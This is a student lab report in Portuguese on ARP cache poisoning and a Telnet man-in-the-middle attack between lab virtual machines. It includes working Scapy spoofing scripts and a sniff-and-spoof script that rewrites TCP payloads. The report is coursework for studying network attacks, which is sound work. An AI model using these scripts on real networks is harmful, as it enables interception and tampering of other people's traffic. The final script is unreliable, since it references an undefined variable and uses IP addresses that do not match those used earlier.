# Laboratório 6 - ARP Cache Poisoning Attack

### Felipe Junio Rezende - 11711ECP007

### Murilo Guerreiro Badoco - 11711ECP010

## Tarefa 1 - ARP Cache Poisoning

O objetivo da tarefa era utilizar o Packet Spoofing para executar um ataque ARP Cache Poisoning. Para isso, foram utilizadas 3 Virtual Machines, as vítimas (A e B) e o atacante (M). Para cada tarefa, modificamos o código fornecido no roteiro, alterando alguns atributos, para testar algumas maneiras de realizar o ataque de ARP Cache Poisoning:



### Tarefa 1A - Usando ARP request

Na Virtual Machine M, construímos uma requisição de pacote ARP e enviamos para a VM A. O código ficou dessa maneira:

```python
#!/usr/bin/python3
from scapy.all import *

E = Ether()
A = ARP(hwsrc='08:00:27:16:22:25',psrc='10.0.2.4', 
	hwdst='08:00:27:bd:8a:cf', pdst='10.0.2.15')

pkt = E/A
pkt.show()
sendp(pkt)
```

Em seguida, verificamos que o endereço MAC da VM M está mapeado para o endereço IP da VM B, no cache ARP da VM A:



Cache ARP para as máquinas A e B respectivamente:



### Tarefa 1B - Usando ARP reply



Para a próxima tarefa, construímos na VM M uma reposta de pacote ARP e enviamos para a VM A. O código ficou dessa maneira:

```python
#!/usr/bin/python3
from scapy.all import *

E = Ether()
A = ARP(op=2, hwsrc='08:00:27:16:22:25',psrc='10.0.2.4', 
	hwdst='08:00:27:bd:8a:cf', pdst='10.0.2.15')

pkt = E/A
pkt.show()
sendp(pkt)
```

Novamente, verificamos que o endereço MAC da VM M está mapeado para o endereço IP da VM B, no cache ARP da VM A:


### Tarefa 1C - Usando ARP gratuitous message

Por fim, construímos na VM M uma requisição de pacote ARP gratuito, através do código a seguir:

```jsx
#!/usr/bin/python3
from scapy.all import *

E = Ether(dst='ff:ff:ff:ff:ff:ff', src='08:00:27:16:22:25')
A = ARP(hwsrc='08:00:27:16:22:25',psrc='10.0.2.4', 
	hwdst='ff:ff:ff:ff:ff:ff', pdst='10.0.2.4')

pkt = E/A
pkt.show()
sendp(pkt)
```



ARP na máquina B após o envio  da ARP gratuitous message:



## Tarefa 2 - Ataque MITM em Telnet usando ARP Cache Poisoning

Essa tarefa tinha o objetivo de interceptar a comunicação entre as VMs A e B, que utilizam o protocolo Telnet.

### Passo 1 - Executar o ataque ARP cache poisoning

Primeiramente, executamos da VM M, o ataque de ARP cache poisoning para as VMs A e B, para que o cache ARP de A mapeasse o endereço IP de B ao endereço MAC de M, e da mesma maneira, mapeasse o IP de A ao endereço MAC de M. Assim, todos os pacotes enviados entre A e B serão interceptados pela VM M.

```python
#!/usr/bin/python3
from scapy.all import *

def spoof_ARP(ip_src, mac_src, ip_dst, mac_dst):
	E = Ether(dst=mac_dst, src=mac_src)
	A = ARP(hwsrc=mac_src ,psrc=ip_src, 
	hwdst=mac_dst, pdst=ip_dst)
	pkt = E/A
	pkt.show()
	sendp(pkt)

m_mac = '08:00:27:11:8f:ff'

spoof_ARP('10.0.2.15', m_mac, '10.0.2.4', '08:00:27:16:22:25')
spoof_ARP('10.0.2.4', m_mac, '10.0.2.15', '08:00:27:bd:8a:cf')
```

Pacotes no wireshark:



### Passo 2 - Testando

Com o ataque bem sucedido, realizamos um Ping entre A e B e observamos, por meio do Wireshark, que os pacotes enviados de A partem diretamente para B, porém são interceptados por M indicando que o ataque ocorreu com sucesso. A máquina A tenta repetidas vezes realizar o PING até que o faz em Broadcast.





### Passo 3 - Ligando IP Forwarding

Para o próximo passo, ligamos o IP Forwarding na VM M, para que esse pudesse encaminhar os pacotes interceptados entre A e B. Para isso, executamos no terminal o seguinte comando:

```bash
$ sudo sysctl net.ipv4.ip_forward=1
```

Em seguida, realizamos novamente um Ping entre A e B e observamos que os pacotes que chegam de A encontram M, que por sua vez percebe que não é o destino e os redireciona para B.



### Passo 4 - Executando o ataque MITM

Para o último passo, nós criamos uma conexão por meio do Telnet entre A e B, e em seguida, desligamos o IP Forwarding utilizando o comando abaixo:

```bash
$ sudo sysctl net.ipv4.ip_forward=0
```

Em seguida, digitamos algo na janela de A, e observamos que nada acontece de imediato:



Depois, nós executamos o programa de Sniff and Spoof na VM M, para que a cada pacote capturado de A para B, enviássemos um pacote, por meio do Spoofing, só que com dados TCP diferentes. Já para os pacotes enviados de B para A (Reply Packets), não realizamos nenhuma modificação. O código construído ficou dessa maneira:

```python
#!/usr/bin/python3
from scapy.all import *
import re

VM_A_IP = '10.0.2.10'
VM_B_IP = '10.0.2.9'

def spoof_pkt(pkt):
	if pkt[IP].src == VM_A_IP and pkt[IP].dst == VM_B_IP and pkt[TCP].payload:
		olddata = (pkt[TCP].payload.load)
		data = real.decode()
		newdata = re.sub(r'[a-zA-Z]',r'Z',data)
		newpkt = pkt[IP]
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)
		send(newpkt/newdata)
		print("Substituindo: "+str(olddata)+" para: "+ newdata)
	elif pkt[IP].src == VM_B_IP and pkt[IP].dst == VM_A_IP:
		newpkt = pkt[IP]
		send(newpkt)

pkt = sniff(filter='tcp',prn=spoof_pkt)
```

Ao digitar 'asd' na tela da VM A, observamos que o ataque MITM foi realizado com sucesso:


